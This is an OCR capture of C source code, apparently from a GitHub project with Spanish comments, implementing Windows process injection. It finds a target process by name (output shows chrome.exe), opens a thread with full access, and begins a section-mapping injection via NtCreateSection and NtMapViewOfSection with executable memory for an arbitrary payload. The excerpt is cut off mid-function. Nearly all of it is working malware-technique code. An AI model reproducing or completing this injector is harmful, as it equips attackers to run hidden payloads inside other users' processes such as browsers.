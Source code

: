 ```c
		if (thEntry.th32OwnerProcessID == pid) 	{
			printf("[FindThread] : Thread found %d :", thEntry.th32ThreadID);
			printf(" ProcessId %d \n", thEntry.th32OwnerProcessID);
			hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID);
			break;
		}
	}
	CloseHandle(Snap);
	
	return hThread;
}

int FindProcess(const char *procname) {
        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);//se crear un snapshot de los procesos en ejecución del sistema operativo
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
        pe32.dwSize = sizeof(PROCESSENTRY32); // se obtiene el tamaño total del objeo definido     
        if (!Process32First(hProcSnap, &pe32)) { // validación del snapshot creado
                CloseHandle(hProcSnap);
                return 0;
        }
        while (Process32Next(hProcSnap, &pe32)) { // iteración del snapshot
				//printf("[FindProcess: ] %s \n", pe32.szExeFile);
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) { // comprobación del nombre del proceso
                        pid = pe32.th32ProcessID; // obtención del pid del proceso
						printf("[FindProcess]: Process Found %s :", pe32.szExeFile);
						printf(" PID %d \n", pid);
                        break;
                }
        }       
        CloseHandle(hProcSnap); //se cierra el snapshot       
        return pid; // retorno de pid
}


int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
	HANDLE hSection = NULL;
	PVOID pLocalView = NULL, pRemoteView = NULL;
	HANDLE hThread = NULL;
	CLIENT_ID cid;
	HANDLE lProc = GetCurrentProcess();
	NtCreateSection_t pNtCreateSection = (NtCreateSection_t) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtCreateSection");
	if (pNtCreateSection == NULL)
		return -2;
	pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
	//printf("[Inject].NtCreateSection [NTDLL.DLL] create memory section with full access %p \n", pNtCreateSection);
	//printf("[Inject].NtCreateSection [NTDLL.DLL] create memory section with full access %s \n", &pNtCreateSection);
	NtMapViewOfSection_t pNtMapViewOfSection = (NtMapViewOfSection_t) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtMapViewOfSection");
	if (pNtMapViewOfSection == NULL)
		return -2;
	pNtMapViewOfSection(hSection, lProc, &pLocalView, NULL, NULL, NULL, (SIZE_T *) &payload_len, ViewUnmap, NULL, PAGE_READWRITE);
	//printf("[Inject].NtMapViewOfSection [NTDLL.DLL] create LocalView with With READ_WRITE privileges  %p \n", pNtMapViewOfSection);
```

[FindProcess]: Process Found chrome.exe : PID 7688